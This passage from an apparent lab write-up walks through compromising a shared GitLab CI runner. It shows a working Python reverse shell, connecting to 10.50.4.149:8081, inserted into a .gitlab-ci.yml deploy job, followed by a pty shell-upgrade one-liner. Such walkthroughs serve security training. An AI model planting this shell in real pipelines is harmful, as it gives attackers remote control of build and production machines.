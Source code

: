Now let's look at the `Build->Jobs` and check the runner of the merge request we just made

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228002518.png)


Now lets look at one for a production merge request. They are the same. This means by compromising the `dev` runner we can do so for the `prod` runner too.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228002818.png)


On the dev branch let's add our trusty reverse shell script. To the `.gitlab-ci.yml` file, and merge it in.
![Alt Text](/assets/images/CICDImgs/Pasted image 20250228003905.png)

```
stages:
  - deploy

production:
  stage: deploy
  script:
    - /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.4.149",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
  environment:
    name: ${CI_JOB_NAME}
```

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228003955.png)


Now we are on GRunner02, but we need to get to the dev and prod machines to compromise them. Let's explore some ways to do that

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228010227.png)


![Alt Text](/assets/images/CICDImgs/Pasted image 20250228010310.png)

 

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228004557.png)

Unfortunately we are not able to use SSH because we do not have a good shell, this caused it to crash. 
Let's get our shell back by rerunning the pipeline

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228005728.png)


Now let's get a proper shell and try again
````bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
````
